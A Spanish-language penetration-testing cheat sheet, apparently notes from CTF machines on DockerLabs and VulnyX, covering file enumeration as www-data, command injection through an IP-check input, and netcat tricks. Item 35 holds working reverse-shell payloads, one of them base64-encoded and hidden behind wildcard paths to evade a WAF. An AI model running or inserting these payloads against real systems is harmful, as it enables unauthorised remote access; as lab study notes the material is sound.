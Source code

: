 -------------------------------------------------------------------------------

## 33.- podemos ejecutar el siguiente comando si somos el usuario www-data y ver cosas interesantes:

find / -type f -user www-data 2>/dev/null | grep -v proc

Busca en el sistema todos los archivos regulares (-type f) que pertenezcan al usuario www-data.

Descarta cualquier mensaje de error generado durante la búsqueda.

Filtra y elimina de la salida cualquier archivo o directorio que esté relacionado con /proc.

ejemplo: máquina swiss de dockerlabs

-------------------------------------------------------------------------------

## 34.- forma de analizar un binario en mi kali:

strings sendinv2

-------------------------------------------------------------------------------

## 35.- si tengo por ejemplo un input dónde pueda escribir una ip y ver si tengo conectividad con la ip, puedo intentar REC , Ejecución remota de comandos.

En general en cualquier input

para el caso:

172.17.0.2; ls

172.17.0.2; bash -c  "/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1"

Otro caso es que me permita ejecutar comando en base 64:

convertimos a base64

nc -e /bin/bash 192.168.42.133 443

bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDIuMTMzIDQ0Mwo=

/???/e??o bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDIuMTMzIDQ0Mwo= | base64 -d | /???/b??h -e

máquina yourwaf vulnyx

-------------------------------------------------------------------------------

## 36.- cuando tenga un problema al cambiar de usuario de usuario bobby a usuario gladys por ejemplo y la conexión por netcat siendo el usuario bobby aún se cae al cambiar a gladys, 

lo que se hace es enviar desde una conexión netcat desde bobby a otra conexión netcat, y en esta nueva conexión recién cambiar de usuario.
